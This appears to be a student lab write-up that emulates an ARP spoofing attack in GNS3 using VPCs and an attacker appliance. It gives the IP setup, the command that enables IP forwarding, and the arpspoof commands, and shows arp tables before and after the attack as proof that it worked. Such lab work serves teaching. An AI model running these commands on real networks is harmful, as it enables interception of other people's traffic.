



Emulate an ARP spoofing attack on GNS3. You may rely on VPCs or other client appliances to emulate the client. Rely on a more sophisticated appliance to emulate the attacker. Prove that the attack is successful by monitoring the incoming and outgoing traffic via wireshark. Provide a document with corresponding images as proof.

# Setup
To GNS3 I added 2 VPC's, the MaliciousClient 19.01 as provided, and an ethernet switch.

For each VPC, I used the `ip` command to configure an IP and gateway.
```
     IP ADDRESS
PC1 192.168.1.10 
PC2 192.168.1.20
```

For the MaliciousClient, I set the IP using the following commands
```
ifconfig ens3 192.168.1.30 netmask 255.255.255.0 up
route add default gw 192.168.1.1
```

# ARP
Firstly, I had to apologize for not providing any pcap files. My desktop has died and my laptop was not able to handle the GNS3 server, the Malicious Client, and Wireshark all at once.

This was sad to learn, it has an i7 8th gen but all 8 cores were pushing 90% Utilization... It took me an entire 30 minutes or so to close Wireshark.

These are the arp tables for PC1, PC2, and the MC before initiating any attack.

# Intial State


Note the arp tables for PC1 and PC2

```
PC1> arp 
00:50:79:66:68:01 192.168.1.20 ...

PC2> arp
00:50:79:66:68:00 192.168.1.10 ...
```

# Initiating the attack
First, ip forwarding must be enabled on MC with `echo 1 > /proc/sys/net/ipv4/ip_forward`

While doing so, it's important to have PC1 and PC2 ping each other every once and a while to simulate a connection. I chose to have only PC1 ping PC2.

In order to execute the task as fast as possible, I appened the two arpspoof commands like so:

```
arpspoof -t 192.168.1.1 192.168.1.0 & arpspoof -t 192.168.1.10 192.168.1.1
```

Once the commands execute, MC's stdout will start dumping arp replies. See below.



# Aftermath
After recieving confirmation from stdout, I check PC1's arp table. The MAC address is now set to the MC's MAC address, proving the attack has worked.

```
PC1> arp
0c:08:14:c9:c4:00 192.168.1.1 ...
```

